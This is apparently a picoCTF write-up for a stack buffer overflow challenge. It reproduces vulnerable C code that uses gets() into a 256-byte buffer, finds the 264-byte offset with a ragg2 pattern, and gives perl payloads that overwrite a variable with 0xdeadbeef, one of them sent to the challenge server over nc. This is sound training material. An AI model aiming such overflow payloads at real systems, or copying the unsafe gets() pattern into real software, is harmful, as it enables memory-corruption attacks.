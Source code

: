 #URL
https://play.picoctf.org/practice/challenge/216
# Concept
* buffer overflow
* variable overwrite
# Method of solve
* we have access to the source code
```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
* we want to get the flag. this snippet shows us how:
```
#define GOAL 0xdeadbeef
  long code = 0;

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
```
* we need to match the contents of the `code` variable to the `GOAL` variable
* `GOAL` is set to the hex digits `0xdeadbeef` and `code` is set to decimal `0`
* so we could overwrite the value of `code` through stack buffer overflow
* we need to identify a vulnerable function in the code that we can use for buffer overflow:
```
#define SIZE 0x100

char clutter[SIZE];

gets(clutter);
```
* this code uses the vulnerable `gets` function and saves the input to the `clutter` array, which has a buffer size of `0x100`, which is 256 bytes
* so user input in excess of 256 bytes will overflow into other memory addresses
* we can create a pattern and send it to figure out how many bytes we need to overwrite the `code` variable
```
ragg2 -P 300 -r
echo 'AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABYABZABaABbABcABdABeABfABgABhABiABjABkABlABmAB' | ./chall
ragg2 -q 0x4164424163424162
```
* this lets us know that the offset for the buffer overflow is `264`
* we can feed this offset, along with our payload to overwrite the `code` variable
```
perl -e 'print "A" x 264 . "\xef\xbe\xad\xde"' | ./chall
```
* then send this to the server
```
perl -e 'print "A" x 264 . "\xef\xbe\xad\xde\x0a"' | nc mars.picoctf.net 31890
```
* note that we need to send an extra newline byte `\x0a` to send the data in this case
